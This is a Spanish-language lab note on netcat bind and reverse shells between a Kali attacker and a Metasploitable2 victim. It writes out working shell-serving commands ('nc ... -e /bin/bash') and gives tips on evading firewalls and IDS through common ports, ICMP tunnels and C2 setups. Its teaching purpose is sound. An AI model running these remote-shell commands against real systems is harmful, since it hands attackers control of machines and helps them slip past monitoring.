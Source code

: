Practica de [[Explotación]]

netcat, llamado mediante el comando nc, es un conjunto de implementaciones, una de las mas modernas por ejemplo es ncat. Las implementaciones pueden establecer comunicaciones entre ellas sin problema.

En ejemplo de bind shell, usaremos msfadmin en metasploitable2 como victima y Kali como atacante.

En la maquina victima lanzamos nc:

``` bash
nc -nlvp 4444 -e /bin/bash
```

-l implica que nc esta en modo escucha 
-p indica el puerto de escucha, en este caso el 4444
-n es para que no haga traduccion de numeros a nombre
-v modo verbose
-e el binario a servir en conexion (salida del binario)

Desde la maquina atacante, iniciamos la bind shell:

``` bash
ncat -nv 192.168.56.102 4444
```


!!! - La terminal que obtenemos con netcat tiende a ser bastante limitada (ej: no tiene autocompletado, no tiene historico de comandos... Es decir, es una terminal **NO INTERACTIVA**), y siempre tendra los privilegios del usuarios que sirvio el escuchador.

Algo a tener en cuenta tambien esque con este tipo de shells inestables, CTRL + C cancelara la sesion en vez de cancelar el comando.

Tambien hay que tener en cuenta que a dia de hoy la mayoria de firewalls cortan las conexiones del exterior, por lo que las bind shells tienden a no funcionar. Por eso se usan las **reverse shell**:

Una reverse shell implica que el primer paquete de la conexion sale de la victima.

Ahora ponemos a la escucha a nuestra maquina atacante (esto tiene un pequeño riesgo, ya que podrian iniciar una bind shell contra nosotros):

``` bash
nc -nlvp 4444
```

Y en la maquina victima iniciamos la conexion, ofreciendo la terminal, esto se puede de hacer de millones de formas distintas (ver InternalAllTheThings (salido de PayloadsAllTheThings)):

``` bash
nc -v 192.168.56.100 4444 -e /bin/bash
```

Una evolucion en ejercicios Red Team seria establecer un sistema C2 para tener conexiones con ejecucion remota de comandos sin depender de una tuberia abierta de forma constante (facilmente detectable por IDS).

En cuanto a que puerto/puertos a utilizar. En caso de bind shell, una que permita que se inicie esa conexion, con la reverse shell ocurre exactamente lo mismo. Por ejemplo el puerto 443, 80, etc. que de normal son usados por servicios comunes. Tambien podriamos optar por crear tuneles con otros protocolos que no sean tcp o udp y utilizar por ejemplo ICMP. Hoy en dia hay canales incluso a traves de protocolos de correo o de sincronizacion de horas.

---

## Ejercicio

